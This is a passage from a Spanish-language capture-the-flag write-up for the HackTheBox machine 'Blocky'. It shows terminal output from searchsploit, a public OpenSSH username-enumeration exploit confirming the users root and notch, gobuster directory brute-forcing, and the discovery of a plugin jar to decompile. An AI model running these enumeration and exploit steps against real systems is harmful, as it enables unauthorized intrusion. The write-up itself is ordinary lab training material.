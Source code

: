 ```java
┌──(root㉿kali)-[/home/…/CTF/HTB/blocky/content]
└─# searchsploit ssh enum user                                    
------------------------------------------------------------------------------------------------------------
 Exploit Title                                                                                             |  Path
------------------------------------------------------------------------------------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                   | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                             | linux/remote/45210.py
OpenSSH 7.2p2 - Username Enumeration                                                                       | linux/remote/40136.py
OpenSSH < 7.7 - User Enumeration (2)                                                                       | linux/remote/45939.py
OpenSSHd 7.2p2 - Username Enumeration                                                                      | linux/remote/40113.txt
------------------------------------------------------------------------------------------------------------
```
El exploit permite ver que usuarios existen en shh.
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/blocky/content]
└─# python2 45939.py 10.10.10.37 root 2> /dev/null
[+] root is a valid username
┌──(root㉿kali)-[/home/…/CTF/HTB/blocky/content]
└─# python2 45939.py 10.10.10.37 notch 2> /dev/null
[+] notch is a valid username
┌──(root㉿kali)-[/home/…/CTF/HTB/blocky/content]
└─# python2 45939.py 10.10.10.37 Notch 2> /dev/null
[-] Notch is an invalid username
```
Con gobuster hacemos enumeración de directorios.

```java
┌──(root㉿kali)-[/home/…/CTF/HTB/blocky/nmap]
└─# gobuster dir -u http://blocky.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://blocky.htb
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/01/26 23:29:15 Starting gobuster in directory enumeration mode
===============================================================
/wiki                 (Status: 301) [Size: 307] [--> http://blocky.htb/wiki/]
/wp-content           (Status: 301) [Size: 313] [--> http://blocky.htb/wp-content/]
/plugins              (Status: 301) [Size: 310] [--> http://blocky.htb/plugins/]
/wp-includes          (Status: 301) [Size: 314] [--> http://blocky.htb/wp-includes/]
/javascript           (Status: 301) [Size: 313] [--> http://blocky.htb/javascript/]
```
En la ruta plugins, existe dos archivos `.jar`, abrimos el archivo `BlockyCore.jar`, con un decompilador de java. `jd-gui`
> ![alt text](https://i.postimg.cc/q7f35P5Y/blocky3.png)
